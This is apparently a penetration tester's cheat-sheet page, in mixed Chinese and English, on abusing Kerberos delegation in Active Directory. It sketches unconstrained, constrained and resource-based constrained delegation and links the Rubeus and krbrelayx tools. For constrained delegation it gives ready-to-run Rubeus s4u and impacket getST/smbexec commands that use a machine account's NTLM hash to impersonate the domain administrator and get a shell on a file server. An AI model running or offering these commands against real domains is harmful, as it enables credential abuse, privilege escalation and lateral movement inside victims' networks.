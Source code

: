 # kerberos delegation

Microsoft released several implementations of this including _unconstrained delegation_ (in 2000), _constrained delegation_ (in 2003), and _resource based constrained delegation_ (in 2012).&#x20;

为了克服kerberos  double-hop的缺点

#### Unconstrained Delegation

用户给中间服务器的凭据可以被窃取用来登任意服务器

When the user requests access for a service ticket against a service that uses unconstrained delegation, the request also includes a forwardable TGT

{% embed url="https://github.com/GhostPack/Rubeus" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

#### Constrained Delegation

中间人的属性里有哪些后端可以委派，调整这个属性需要高权限，域控权限

rubeus or kekeo

.\Rubeus.exe s4u /user:web01$ /rc4:46f5e45ca3d9e510adf06f3296a06fa2 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt



impacket-getST -spn cifs/file01 -impersonate administrator -hashes :46f5e45ca3d9e510adf06f3296a06fa2 'evil.com/web01$'

export KRB5CCNAME=administrator.ccache

impacket-smbexec -no-pass -k file01.evil.com

#### Resource-Based Constrained Delegation

为了消除这个高权限，转而变成后端具有属性里有些哪些中间人可以代表他人、这样只需要最终目标的管理员权限就可以了,或者说某个已控制的用户有genetic write的权限，非域管理员权限，这是一个优点。

要写入的属性是spn，

所以中间人必须要有一个spn，所以要么用已有的要么创建一个新的computeraccount/serviceaccount。

那么我们就用我们的中间人去申请目标的本地管理员

